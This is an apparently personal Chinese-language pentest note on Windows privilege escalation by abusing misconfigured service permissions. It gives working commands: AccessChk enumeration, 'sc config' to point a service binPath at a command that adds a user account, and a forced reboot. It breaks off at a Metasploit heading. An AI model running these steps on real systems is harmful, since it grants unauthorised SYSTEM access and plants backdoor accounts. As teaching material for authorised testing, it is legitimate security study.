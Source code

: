 - http://blog.neargle.com/win-powerup-exp-index/
- https://detect.secwx.com/

### 系统服务提权

windows在系统启动时，由于有些服务是开机自启动的，并且大部分系统服务是以SYSTEM权限启动。应用软件在注册服务时，会在以下路径中创建相应的注册表

```
HKEY_MACHINE\SYSTEM\CurrentControlSet\Services
```

我们可以中该表中找到系统启动时调用的应用二进制文件，通过修改启动路径来执行其他程序从而获得权限

#### 不安全的服务权限

如果目标机器上的低权限用户配置错误，对高权限下运行的系统服务具有更改服务配置的权限(SERVICE_QUERY_ CONFIG或SERVICE_ALL_ACCESS)就可以通过低权限用户修改系统服务启动的二进制文件路径

**AccessChk**

该工具可以枚举目标主机上存在权限缺陷的系统服务

使用该工具枚举当前用户可修改的服务

```
accesschk.exe -uwcqv "XXX" * /accepteula > 1.txt //XXX为当前用户名
```

![2](E:\笔记软件\笔记\渗透测试\内网体系建设\windows提权\2.png)

```
sc qc 服务名称  //查看该服务启动时的权限
```

![3](E:\笔记软件\笔记\渗透测试\内网体系建设\windows提权\3.png)

然后修改执行路径为我们想要执行的命令

```
# binpath,指定二进制文件的路径 ，注意这里的"="后面要留有空格
sc config VMTools binPath= "net user test1 abc123! /add"  
//这里的路径可修改为上传到服务器的exe可执行文件，并使用cmd.exe指定该文件路径进行执行
# 查看查询该服务的执行路径是否修改成功
sc qc xxxx
```

重启系统或是服务

```
shutdown -r -t 0
```

当用户对该服务具有SERVICE_START和SERVICE_STOP权限时，可以使用命令直接重启该服务

```
sc stop xxx
sc start xxx
```

**metaspolit**
